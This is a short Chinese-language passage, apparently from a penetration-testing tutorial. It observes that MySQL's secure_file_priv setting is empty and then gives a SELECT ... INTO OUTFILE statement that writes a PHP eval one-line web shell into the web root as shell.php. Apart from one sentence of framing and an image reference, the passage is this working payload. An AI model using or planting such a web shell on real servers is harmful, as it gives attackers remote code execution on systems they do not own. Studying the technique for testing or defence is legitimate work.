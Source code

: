 ![img](img/image_20240735-133532.png)

可以看到 `secure_file_priv` 变量为空，可以任意指定文件的位置

```sql
select '<?php @eval($_POST["shell"])?>' into outfile '/var/www/html/shell.php'
```
